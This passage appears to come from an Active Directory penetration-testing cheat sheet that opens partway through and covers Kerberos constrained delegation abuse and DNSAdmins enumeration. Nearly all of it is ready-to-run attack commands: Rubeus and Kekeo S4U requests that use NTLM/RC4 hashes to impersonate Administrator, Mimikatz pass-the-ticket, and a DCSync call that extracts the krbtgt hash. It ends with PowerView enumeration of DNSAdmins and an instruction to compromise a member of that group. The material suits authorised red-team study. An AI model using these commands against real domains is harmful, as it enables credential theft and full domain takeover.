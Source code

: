 ```
PS C:\> .\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/test-mssql.test.domain.LOCAL" /ptt

PS C:\> ls \\test-mssql.test.domain.local\c$        # To confirm we have access
```

### Alternate Service Constrained Delegation

- Request a TGT using asktgt from Kekeo (must have either the plaintext password or NTLM hash of the account that has constrained delegation enabled

```
PS C:\> .\kekeo.exe
kekeo # tgt::ask /user:test-adminsrv$ /domain:<Domain Name> /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

- Use the TGT to request a TGS as ANY user e.g. Administrator using S4U from Kekeo_one (no SNAME validation) for a service the machine has access to through constrained delegation, and request an alternate TGS ticket for the LDAP service

```
kekeo # tgs::s4u /tgt:TGT_test-adminsrv$@TEST.DOMAIN.LOCAL_krbtgt~test.domain.local@TEST.DOMAIN.LOCAL.kirbi /user:Administrator@test.domain.local /service:time/test-dc.test.domain.LOCAL | ldap/test-dc.test.domain.LOCAL
```

- Use Mimikatz to ptt the TGS

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@test.domain.local@TEST.DOMAIN.LOCAL_ldap~test-dc.test.domain.LOCAL@TEST.DOMAIN.LOCAL_ALT.kirbi"'
```

- Use DCSync feature without having Domain Admin privileges to get the krbtgt hash

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:test\krbtgt"'
```

- Abuse alternate service constrained delegation using Rubeus by requesting a TGT and TGS in a single command

```
PS C:\> .\Rubeus.exe s4u /user:test-adminsrv$ /rc4:1fadb1b13edbc5a61cbdc389e6f34c67 /impersonateuser:Administrator /msdsspn:"time/test-dc.test.domain.LOCAL" /altservice:ldap /ptt

PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:test\krbtgt"'        # To confirm we can run DCSync
```

### DNSAdmins

- Enumerate the memebers of the DNSAdmins group using PowerView, then compromise a member of this group

```
PS C:\> Get-NetGroupMember -GroupName "DNSAdmins"
```
